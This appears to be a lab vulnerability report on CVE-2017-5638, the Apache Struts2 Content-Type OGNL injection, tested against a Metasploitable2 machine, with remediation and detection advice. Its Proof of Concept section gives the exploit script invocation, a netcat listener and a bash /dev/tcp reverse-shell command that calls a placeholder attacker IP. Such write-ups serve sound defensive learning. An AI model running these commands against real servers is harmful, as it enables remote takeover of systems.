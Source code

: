 # Apache Struts2 RCE Exploitation Report (CVE-2017-5638)

## Vulnerability Report: Apache Struts2 Content-Type OGNL Injection (CVE-2017-5638)

* **Severity**: Critical
* **Tool Used**: Manual Python PoC Script, Burp Suite
* **CVE**: CVE-2017-5638

---


## Impact

This vulnerability allows remote attackers to execute arbitrary commands on a system running a vulnerable version of Apache Struts2. The issue is due to improper handling of the `Content-Type` header, allowing OGNL expression injection.

If exploited, this can lead to full remote code execution and potentially complete system compromise.

---

## Proof of Concept

### Target

* **Victim Machine (Metasploitable2)**: `192.168.x.x`
* **Attacker Machine (Kali Linux)**: `192.168.x.x`

### Exploit Script

A Python proof-of-concept script was used to inject commands via a malicious `Content-Type` header.

```bash
python3 struts2_rce.py http://<viticm_IP>:8080/struts2-showcase/index.action "id"
```

### Reverse Shell

A reverse shell was triggered using:

```bash
# Attacker
nc -lvnp 4444

# Exploit Command
python3 struts2_rce.py http://<viticm_ip>:8080/struts2-showcase/index.action "bash -i >& /dev/tcp/<attacker_IP>/4444 0>&1"
```

---

## Recommendation

* Upgrade to a patched version of Apache Struts2 (>= 2.3.32 or 2.5.10.1)
* Use a WAF or IDS/IPS to block malicious payloads
* Sanitize and validate HTTP headers
* Perform regular vulnerability scanning and patch management

---

## Supporting Screenshots
![POC](https://github.com/user-attachments/assets/d0dc6ba0-aa2f-467e-8461-0e1302ee5b25)


---

## Detection Notes (SIEM or Netcat Monitoring)

* Monitor HTTP traffic with suspicious `Content-Type` headers
* Alert on outgoing traffic to uncommon ports (like 4444)
* Track bash or cmd processes spawned by Java-related services
